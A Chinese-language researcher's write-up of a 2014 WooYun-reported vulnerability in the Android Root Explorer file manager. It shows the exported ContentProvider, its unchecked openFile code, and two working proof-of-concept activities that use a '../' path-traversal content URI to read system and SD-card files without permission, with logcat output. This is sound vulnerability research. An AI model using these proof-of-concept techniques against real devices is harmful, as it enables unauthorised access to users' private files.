

Author:wnagzihxa1n
E-Mail:wnagzihxa1n@gmail.com
在乌云上的报告
缺陷编号：WooYun-2014-75293
漏洞标题：安卓RE文件管理器任意文件读取
相关厂商：Root Explorer RE管理器
漏洞作者：cnrstar
提交时间：2014-09-08 20:18
公开时间：2014-10-21 20:20
漏洞类型：敏感信息泄露
危害等级：中
自评Rank：6
漏洞状态：已交由第三方合作机构(cncert国家互联网应急中心)处理
漏洞来源：http://www.wooyun.org，如有疑问或需要帮助请联系 help@wooyun.org
Tags标签：无
RE文件管理器用的挺广的，经常可以在刷机包里见到，不过很长时间没有更新了，下载链接在这
RE管理器有一个自实现Content Provider，设置了导出，那么可以通过第三方应用进行调用
<provider android:authorities="com.speedsoftware.rootexplorer.content" android:exported="true" android:multiprocess="false" android:name="com.speedsoftware.rootexplorer.GetContentProvider" />
找到实现的代码，发现实现了两个打开文件的接口
public AssetFileDescriptor openAssetFile(Uri uri, String mode) {
return super.openAssetFile(uri, mode);
}
public ParcelFileDescriptor openFile(Uri uri, String mode) {
int v0 = 0x30000000;
File file = new File(uri.toString().substring(GetContentProvider.a.length()));
if((mode.equals("r")) || !mode.equals("rw") && !mode.equals("rwt")) {
v0 = 0x10000000;
}
return ParcelFileDescriptor.open(file, v0);
}
没有过滤，直接打开，所以我们尝试构造一个打开文件的Poc
public class MainActivity extends Activity {
static final String TAG = "toT0C";
@Override
protected void onCreate(Bundle savedInstanceState) {
super.onCreate(savedInstanceState);
setContentView(R.layout.activity_main);
FileInputStream fileInputStream = null;
ContentResolver contentResolver = getContentResolver();
try {
fileInputStream = new FileInputStream(new File("/system/etc/hosts"));
if (fileInputStream != null) {
byte[] data = new byte[fileInputStream.available()];
fileInputStream.read(data);
Log.i(TAG, new String(data));
}
Uri uri = Uri.parse("content://com.speedsoftware.rootexplorer.content/../../../../../../../system/etc/hosts");
fileInputStream = (FileInputStream) contentResolver.openInputStream(uri);
if (fileInputStream != null) {
byte[] data = new byte[fileInputStream.available()];
fileInputStream.read(data);
Log.i(TAG, new String(data));
}
} catch (Exception e) {
e.printStackTrace();
} finally {
try {
if (fileInputStream != null) {
fileInputStream.close();
}
} catch (Exception e) {
e.printStackTrace();
}
}
}
}
特意构造了正常打开系统文件的代码，也能读取，那这就很没有说服力了

所以我们尝试读取某个系统应用的数据，结果权限拒绝，RE管理器同样权限拒绝，也对，没有Root的机子RE管理器肯定也是没有Root权限的
02-02 03:36:18.370 3032-3032/? D/dalvikvm: Not late-enabling CheckJNI (already on)
02-02 03:36:18.480 3032-3032/com.wnagzihxa1n.pocapk W/System.err: java.io.FileNotFoundException: Permission denied
02-02 03:36:18.480 3032-3032/com.wnagzihxa1n.pocapk W/System.err: at android.database.DatabaseUtils.readExceptionWithFileNotFoundExceptionFromParcel(DatabaseUtils.java:146)
02-02 03:36:18.480 3032-3032/com.wnagzihxa1n.pocapk W/System.err: at android.content.ContentProviderProxy.openTypedAssetFile(ContentProviderNative.java:682)
02-02 03:36:18.480 3032-3032/com.wnagzihxa1n.pocapk W/System.err: at android.content.ContentResolver.openTypedAssetFileDescriptor(ContentResolver.java:1063)
02-02 03:36:18.480 3032-3032/com.wnagzihxa1n.pocapk W/System.err: at android.content.ContentResolver.openAssetFileDescriptor(ContentResolver.java:904)
02-02 03:36:18.480 3032-3032/com.wnagzihxa1n.pocapk W/System.err: at android.content.ContentResolver.openInputStream(ContentResolver.java:629)
02-02 03:36:18.490 3032-3032/com.wnagzihxa1n.pocapk W/System.err: at com.wnagzihxa1n.pocapk.MainActivity.onCreate(MainActivity.java:37)
02-02 03:36:18.490 3032-3032/com.wnagzihxa1n.pocapk W/System.err: at android.app.Activity.performCreate(Activity.java:5231)
02-02 03:36:18.490 3032-3032/com.wnagzihxa1n.pocapk W/System.err: at android.app.Instrumentation.callActivityOnCreate(Instrumentation.java:1087)
02-02 03:36:18.490 3032-3032/com.wnagzihxa1n.pocapk W/System.err: at android.app.ActivityThread.performLaunchActivity(ActivityThread.java:2159)
02-02 03:36:18.490 3032-3032/com.wnagzihxa1n.pocapk W/System.err: at android.app.ActivityThread.handleLaunchActivity(ActivityThread.java:2245)
02-02 03:36:18.490 3032-3032/com.wnagzihxa1n.pocapk W/System.err: at android.app.ActivityThread.access$800(ActivityThread.java:135)
02-02 03:36:18.490 3032-3032/com.wnagzihxa1n.pocapk W/System.err: at android.app.ActivityThread$H.handleMessage(ActivityThread.java:1196)
02-02 03:36:18.490 3032-3032/com.wnagzihxa1n.pocapk W/System.err: at android.os.Handler.dispatchMessage(Handler.java:102)
02-02 03:36:18.490 3032-3032/com.wnagzihxa1n.pocapk W/System.err: at android.os.Looper.loop(Looper.java:136)
02-02 03:36:18.490 3032-3032/com.wnagzihxa1n.pocapk W/System.err: at android.app.ActivityThread.main(ActivityThread.java:5017)
02-02 03:36:18.490 3032-3032/com.wnagzihxa1n.pocapk W/System.err: at java.lang.reflect.Method.invokeNative(Native Method)
02-02 03:36:18.490 3032-3032/com.wnagzihxa1n.pocapk W/System.err: at java.lang.reflect.Method.invoke(Method.java:515)
02-02 03:36:18.490 3032-3032/com.wnagzihxa1n.pocapk W/System.err: at com.android.internal.os.ZygoteInit$MethodAndArgsCaller.run(ZygoteInit.java:779)
02-02 03:36:18.490 3032-3032/com.wnagzihxa1n.pocapk W/System.err: at com.android.internal.os.ZygoteInit.main(ZygoteInit.java:595)
02-02 03:36:18.490 3032-3032/com.wnagzihxa1n.pocapk W/System.err: at dalvik.system.NativeStart.main(Native Method)
[ 02-02 03:36:18.550 3032: 3032 D/ ]
HostConnection::get() New Host Connection established 0xb90a74a0, tid 3032
02-02 03:36:18.690 3032-3032/com.wnagzihxa1n.pocapk W/EGL_emulation: eglSurfaceAttrib not implemented
02-02 03:36:18.690 3032-3032/com.wnagzihxa1n.pocapk D/OpenGLRenderer: Enabling debug mode 0
02-02 03:36:18.710 3032-3032/com.wnagzihxa1n.pocapk D/dalvikvm: GC_FOR_ALLOC freed 165K, 7% free 3449K/3684K, paused 2ms, total 2ms
下载某流氓卫士的Root工具
你看这倒霉玩意
这就很尴尬了，我们换个方式来演示其影响，前面这演示肯定是不行的，正常应用都能读的数据谁还用这么费劲来读，所以呀，我们来读取存储卡的数据，读取存储卡是一定要申请权限的，那我们直接读是没有权限的，但是如果通过RE管理器那就不需要了，这就间接的演示了该漏洞的影响
public class MainActivity extends Activity {
static final String TAG = "toT0C";
@Override
protected void onCreate(Bundle savedInstanceState) {
super.onCreate(savedInstanceState);
setContentView(R.layout.activity_main);
FileInputStream fileInputStream = null;
ContentResolver contentResolver = getContentResolver();
try {
try {
fileInputStream = new FileInputStream(new File("/sdcard/Poc"));
if (fileInputStream != null) {
byte[] data = new byte[fileInputStream.available()];
fileInputStream.read(data);
Log.i(TAG, new String(data));
}
} catch (Exception e) {
e.printStackTrace();
}
try {
Uri uri = Uri.parse("content://com.speedsoftware.rootexplorer.content/../../../../../../../sdcard/Poc");
fileInputStream = (FileInputStream) contentResolver.openInputStream(uri);
if (fileInputStream != null) {
byte[] data = new byte[fileInputStream.available()];
fileInputStream.read(data);
Log.i(TAG, new String(data));
}
} catch (Exception e) {
e.printStackTrace();
}
} catch (Exception e) {
e.printStackTrace();
} finally {
try {
if (fileInputStream != null) {
fileInputStream.close();
}
} catch (Exception e) {
e.printStackTrace();
}
}
}
}
妥妥的，第一个权限拒绝了，因为我们没有在AndroidManifest.xml里面申请权限

这也就间接的验证了漏洞
如果机子Root了，那么RE管理器可以读取的文件，我们都可以通过编写Poc读取